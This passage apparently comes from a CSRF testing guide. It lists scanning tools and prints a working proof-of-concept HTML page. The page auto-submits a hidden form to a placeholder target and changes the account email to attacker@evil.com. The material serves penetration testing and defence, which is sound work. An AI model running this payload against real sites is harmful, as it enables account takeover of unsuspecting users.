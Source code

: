 5. **Impact assessment**
   - Document potential impact
   - Demonstrate real-world scenarios

## CSRF Detection & Testing Tools

### Burp Suite Extensions

- CSRF Scanner
- CSRF Token Tracker

### Browser Extensions

- Tamper Data for FF Quantum
- EditThisCookie

### Standalone Tools

- OWASP ZAP (Zed Attack Proxy)
- XSRFProbe

### Manual Testing Scripts

```html
<!-- Test for CSRF vulnerability -->
<!DOCTYPE html>
<html>
<body>
    <h1>CSRF PoC</h1>
    <script>
        function createForm(url, method, params) {
            var form = document.createElement('form');
            form.action = url;
            form.method = method;
            form.style.display = 'none';
            
            for (var key in params) {
                if (params.hasOwnProperty(key)) {
                    var input = document.createElement('input');
                    input.type = 'hidden';
                    input.name = key;
                    input.value = params[key];
                    form.appendChild(input);
                }
            }
            
            document.body.appendChild(form);
            form.submit();
        }
        
        // Example usage
        createForm(
            'https://target.com/change_settings',
            'POST',
            {
                'setting_name': 'email',
                'setting_value': 'attacker@evil.com'
            }
        );
    </script>
</body>
</html>
```
